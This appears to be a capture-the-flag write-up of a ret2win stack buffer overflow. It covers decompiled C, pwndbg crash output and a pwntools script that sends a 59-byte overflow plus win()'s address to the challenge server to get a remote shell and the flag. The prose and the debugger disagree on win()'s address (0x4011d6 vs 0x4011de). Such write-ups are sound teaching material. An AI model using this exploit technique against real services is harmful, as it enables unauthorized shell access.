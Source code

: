 
static analysis:

```
void vuln(void)
{
  __ssize_t _Var1;
  char local_68 [16];
  size_t local_58;
  char *local_50;
  char local_48 [64];
  
  local_50 = (char *)0x0;
  local_58 = 0x40;
  puts("Tell me your secret: ");
  _Var1 = getline(&local_50,&local_58,stdin);
  if (_Var1 == -1) {
    puts("Error reading input.");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  builtin_strncpy(local_68,"Your secret: %s",0x10);
  snprintf(local_48,local_58,local_68,local_50);
  puts(local_48);
  return;
}

```

I found the function win() in the list of functions of ghidra, so i obviously have to run it to gain control to the remote shell.
```
void win(void)

{
  FUN_004010e0("/bin/sh",0);
  return;
}

```

firstly i notice that there is a buffer overflow when there are inserted 59 characters or more
```
┌──(gio㉿kali)-[~/Downloads]
└─$ python -c "print('a'*59)" | ./guessline
Tell me your secret: 
Your secret: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

zsh: done                python -c "print('a'*59)" | 
zsh: segmentation fault  ./guessline

```

found that win() is located at 0x4011d6
```
pwndbg> p win
$1 = {<text variable, no debug info>} 0x4011de <win>
```

I need to fill the RIP with 3 bytes:
```
┌──(gio㉿kali)-[~/Downloads]
└─$ python -c "print('a'*59+'b'*3)"
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbb

```

running this input with dbg I get:
```
Program received signal SIGSEGV, Segmentation fault.
0x000000000a626262 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────────────────────────────────
 RAX  0x4d
 RBX  0x7fffffffdef8 —▸ 0x7fffffffe265 ◂— '/home/gio/Downloads/guessline'
 RCX  0x7ffff7eb1210 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0
 RDI  0x7ffff7f96710 (_IO_stdfile_1_lock) ◂— 0
 RSI  0x7ffff7f95643 (_IO_2_1_stdout_+131) ◂— 0xf96710000000000a /* '\n' */
 R8   0x73
 R9   0xffffffff
 R10  0
 R11  0x202
 R12  0
 R13  0x7fffffffdf08 —▸ 0x7fffffffe283 ◂— 'COLORFGBG=15;0'
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 R15  0x403e00 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4011a0 (__do_global_dtors_aux) ◂— endbr64 
 RBP  0x6161616161616161 ('aaaaaaaa')
 RSP  0x7fffffffdde0 ◂— 1
 RIP  0xa626262
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────────────────────────
Invalid address 0xa626262
```

62 is b in ascii so it works.

Now that I have all the information, I create this python script and run it.
```
#!/usr/bin/env python3
from pwn import *

offset = 59
win_addr = 0x4011de  

# Build the payload:
payload = b'A' * offset + p64(win_addr)

# Connect to the remote service
p = remote('chall.ctc.codes', 31779)

p.sendline(payload)

# Drop into interactive mode to access the spawned shell.
p.interactive()
```

I have access to the shell so now by ls I see the flag.txt, I cat it and see the flag:
```
CTF{0KAy_M4ybE-1-Sh0U1d_HaVe_reaD_7he_man_page}
```